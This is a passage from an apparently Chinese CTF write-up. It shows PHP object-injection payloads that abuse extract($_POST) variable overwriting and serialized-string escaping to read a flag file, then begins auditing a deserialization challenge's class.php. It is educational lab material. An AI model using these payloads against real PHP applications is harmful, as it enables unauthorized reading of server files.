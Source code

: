 ```php
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

传phpinfo的时候发现了 d0g3_f1ag.php文件。auto_append_file在所有页面的底部自动包含文件

```php
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}&function=show_image

extract($_POST) 存在变量覆盖漏洞

```

反序列化之后：

```php
"a:3:{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"

";s:8:"function";s:59:"a 其长度为24，作为一个整体成了user的值
后面";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"这部分被舍弃
这里最后面加上的s:2:"dd";s:1:"a"是为了满足最前面a:3:中的3
```

之后发现在另一个文件里，然后改下名字：

```php
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:2:"dd";s:1:"a";}&function=show_image
```

# 0x2D.[极客大挑战 2019]PHP

>   考点还是反序列化

下载备份文件，审计：

class.php

```php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
```